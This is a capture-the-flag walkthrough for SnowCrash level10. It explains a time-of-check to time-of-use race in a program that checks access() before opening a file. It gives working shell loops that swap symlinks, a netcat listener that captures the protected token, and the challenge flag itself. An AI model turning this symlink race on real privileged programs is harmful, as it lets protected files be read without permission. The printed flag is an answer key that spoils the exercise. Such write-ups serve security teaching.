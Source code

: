 
# SnowCrash Level10 Walkthrough

This walkthrough explains how we exploited a race condition vulnerability in `level10` to retrieve the flag.

---

## 🧭 Step 1: Exploring the Environment

Once logged in as `level10`, we check the contents of the home directory:

```bash
level10@SnowCrash:~$ ls
level10  token
```

- `level10`: an executable file  
- `token`: a file we presumably need access to, but it's protected

---

## ⚙️ Step 2: Understanding the Executable

Running the executable without arguments gives us usage instructions:

```bash
level10@SnowCrash:~$ ./level10
./level10 file host
	sends file to host if you have access to it
```

Trying it on the `token`:

```bash
level10@SnowCrash:~$ ./level10 token localhost
You don't have access to token
```

As expected, we’re denied access.

---

## 🧠 Step 3: Investigating the Vulnerability

After some research, we find that the program likely uses the `access()` system call to check permissions. This system call is **insecure** because it introduces a **Time-of-Check to Time-of-Use (TOCTOU)** vulnerability.

The `man access` page even warns:

> ⚠️ Warning: Using these calls to check if a user is authorized to open a file before actually doing so creates a security hole...

This means we can exploit the short window between the check and the use of the file by **swapping a symbolic link** quickly.

---

## 🛠️ Step 4: Exploiting the Race Condition

We’ll use three terminals to exploit this vulnerability.

### 🖥️ Terminal 1: Setup Toggle Between Symlinks

```bash
echo "hello" > /tmp/file

while true; do
    ln -sf ~/token /tmp/file2
    ln -sf /tmp/file /tmp/file2
done
```

This script constantly switches `file2` between a harmless file and the protected `token`.

### 🖥️ Terminal 2: Continuously Invoke the Vulnerable Program

```bash
while true; do
    ./level10 /tmp/file2 127.0.0.1
done
```

This attempts to send `file2` to localhost, hoping to catch the moment `file2` is pointing to `token`.

### 🖥️ Terminal 3: Listen for the Flag Using Netcat

```bash
nc -lk 127.0.0.1 6969
```

If the race condition is successful, the content of `token` will be sent here.

---

## 🏁 Step 5: Retrieve the Flag

Eventually, we catch the right moment, and the server sends the flag to the netcat listener:

```
woupa2yuojeeaaed06riuj63c
```

---

## ✅ Summary

- Discovered a race condition vulnerability in how the executable uses `access()` and `open()`.
- Used symbolic link swapping to bypass the access restriction.
- Listened on localhost to capture the flag when the exploit succeeded.

---

### 🎯 Flag: `woupa2yuojeeaaed06riuj63c`
